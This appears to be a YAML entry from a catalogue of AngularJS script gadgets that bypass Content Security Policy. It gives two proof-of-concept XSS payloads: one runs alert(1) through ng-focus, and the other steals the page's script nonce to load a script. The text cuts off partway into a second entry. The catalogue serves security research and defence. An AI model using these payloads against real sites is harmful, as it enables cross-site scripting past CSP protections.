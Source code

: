 ```yaml
---
description: AngularJS - HTML enhanced for web apps!
github: angular/angular.js
gadgets:
  1.4.5&≥1.6.0 (1):
    authors:
      - twitter:garethheyes
    tags:
      - chrome-browser
      - firefox-browser
      - safari-browser
      - any-tag
      - custom-attr
      - wh-host-csp
      - nonce-csp
      - before-lib-load
    pocs:
      - description: |
          Many other variants have been found by [@garethheyes](https://x.com/garethheyes) (see Related Links).
        code: |
          <script nonce="secret" src="https://ajax.googleapis.com/ajax/libs/angularjs/1.8.3/angular.min.js"></script>

          <!-- user input -->
          <div ng-app><input autofocus ng-focus="$event.view.alert(1)"></div>
      - description: |
          As long as `eval`, `Function`, `setTimeout`... isn't called, it doesn't requires `unsafe-eval`. Due to that, it is possible to retrieve the nonce and load a script.
        code: |
          <script nonce="secret" src="https://ajax.googleapis.com/ajax/libs/angularjs/1.8.3/angular.min.js"></script>

          <!-- user input -->
          <div ng-app>
            <img src=x ng-on-error='
              doc=$event.target.ownerDocument;
              a=doc.defaultView.document.querySelector("[nonce]");
              b=doc.createElement("script");
              b.src="[current-location]/assets/xss/index.js";
              b.nonce=a.nonce; doc.body.appendChild(b)'>
          </div>
    links:
      - https://portswigger.net/research/ambushed-by-angularjs-a-hidden-csp-bypass-in-piwik-pro
      - https://portswigger.net/research/angularjs-csp-bypass-in-56-characters
      - https://portswigger.net/web-security/cross-site-scripting/cheat-sheet#angularjs-csp-bypasses
      - https://joaxcar.com/blog/2024/02/19/csp-bypass-on-portswigger-net-using-google-script-resources/
  1.6.0 (2):
    authors:
      - twitter:cure53berlin
    tags:
      - chrome-browser
      - firefox-browser
      - safari-browser
      - any-tag
      - custom-attr
      - wh-host-csp
      - nonce-csp
      - unsafe-eval-csp
      - before-lib-load
    pocs:
```